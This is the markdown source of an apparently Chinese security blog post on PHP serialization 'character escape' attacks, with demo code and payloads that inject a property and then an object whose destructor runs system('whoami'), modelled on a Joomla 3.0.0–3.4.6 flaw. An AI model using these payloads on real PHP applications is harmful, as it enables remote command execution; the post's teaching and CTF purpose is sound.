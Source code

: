 ```yaml
---
layout: post
title: 'PHP字符逃逸'
subtitle: 'PHP字符逃逸导致的对象注入'
date: 2021-07-12
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### 漏洞产生原因

序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了serialize函数之后，要是放在序列化之前应该就不会产生这个问题

	?php
	function filter($string){
	  $a = str_replace('x','zz',$string);
	   return $a;
	}
	
	$username = "tr1ple";
	$password = "aaaaax";
	$user = array($username, $password);
	
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	
	var_dump(unserialize($r));
	$a='a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa";';
	var_dump(unserialize($a));

php特性：

	1.在反序列化时，底层代码是以";"作为字段的分隔，以"}"作为结尾（字符串除外），并且是根据长度判断内容的
	
	2.对类中不存在的属性也会进行反序列化

以上代码就明显存在一个问题，即从序列化后的字符串中明显可以看到经过filter函数以后s:6对应的字符串明显变长了

并且如果对于a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa"; 这种字符串而言，也能够正常反序列化，说明php在反序列化的时候只要求一个反序列化字符串块合法即可，当然得是第一个字符串块

以以上代码为例，如果能够利用filter函数这种由一个字符变为两个字符的特性来注入想要反序列化后得到的属性，使其可以逃逸出更多可用的字符串，那么我们就能反序列化得到我们想要的属性

比如此时我们想要让反序列化后第二个字符串为123456，此时我们的payload如果和之前的username长度为a，则filter处理以后可能username就会变成a，此时我们的payload变成了新的注入的属性，此时反序列化后就会得到我们想要的结果，比如a:2:{i:0;s:6:"tr1ple";i:1;s:6:"123456";}是我们想要达到的效果，此时我们想要注入的payload明显为：

";i:1;s:6:"123456";}

可以得到其长度为20

此时我们已经知道过滤的规则为x->yy，即注入一个x可以逃逸出一个字符的空位，那么我们只需要注入20个x即可变成40个y，即可逃逸出20个空位，从而将我们的payload变为反序列化后得到的属性值

	$username = 'tr1plexxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}'; //其中红色就是我们想要注入的属性值 
	$password="aaaaa";
	$user = array($username, $password);
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	var_dump(unserialize($r));

可以看到此时注入属性成功，反序列化后得到的属性即为123456

### 实例分析

joomla3.0.0-3.4.6 对象注入导致的反序列化,以下为参考别人的简易化核心漏洞代码

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "tr1ple";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

在这里如果想要通过注入对象来实现反序列化则必须在外部对象内进行注入存在的属性，不能在其外部，否则php将不会进行我们注入恶意对象的反序列化

例如此时因为反序列化读取的时候将会将六位字符\0\0\0替换成三位字符chr(0)*chr(0),因此字符串前面的s肯定是固定的，那么s对应的字符串变少以后将会吞掉其他属性的字符，那么如果我们精心算好吞掉的字符长度，并且能够控制被吞掉属性的内容，那么就能够注入对象，从而反序列化其他类

比如如上所示，此时我们要注入的对象为evil，此时username和password的值我们可控，那么我们可以在username中注入\0，来吞掉password的值，比如

	<?php
	$a='\0\0\0';
	echo strlen($a);
	$b=str_replace('\0\0\0', chr(0).'*'.chr(0), $a);
	echo strlen($b);


所以此时首先确定我们要吞掉的字符的长度

O:4:"User":2:{s:8:"username";s:6:"tr1ple";s:8:"password";s:4:"1234";}

正常情况下我们要吞掉 ";s:8:"password";s:4:" 为22位

但是因为注入的对象payload也在password字段，并且长度肯定是>=10的，因此s肯定是两位数，因此这里为22+1=23位字符

因为是6->3，因此每次添加一组\0\0\0能多吞掉3个字符，因此需要肯定都是3的倍数

因此我们假如这里构造username为\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0 

则经过read函数处理后长度将变为24

即此时能够多吞掉24个字符，为了不让其吞掉payload，我们可以填充1位字符A，即令password的值为A+payload即可

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; $shellcode=$password.$payload; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

执行结果如上图所示，将成功反序列化password属性所对应的值，其值即为我们注入的对象，整个过程也容易理解，就是吞掉后面的属性来注入属性，那么达到攻击有以下要求：

> 1.相邻两个属性的值是我们可以控制的

> 2.前一个属性的s长度可以发生变化，变长变短都可以，变短的话可以吞掉后面相邻属性的值，然后在相邻属性中注入新的对象，如果边长则可以直接在该属性中注入对象来达到反序列化

比如XNUCA2018 hardphp就考察了一个这个相关的trick

这里就出现了用前面的data在反序列化时向后吞一位字符，从而可以导致吞掉后面的普通用户的username字段，而在username字段可以放上我们想要伪造的username，从而达到伪造session的目的

参考

[https://www.cnblogs.com/magic-zero/p/9525842.html](https://www.cnblogs.com/magic-zero/p/9525842.html)

[https://github.com/wonderkun/CTF_web/tree/master/web400-12](https://github.com/wonderkun/CTF_web/tree/master/web400-12)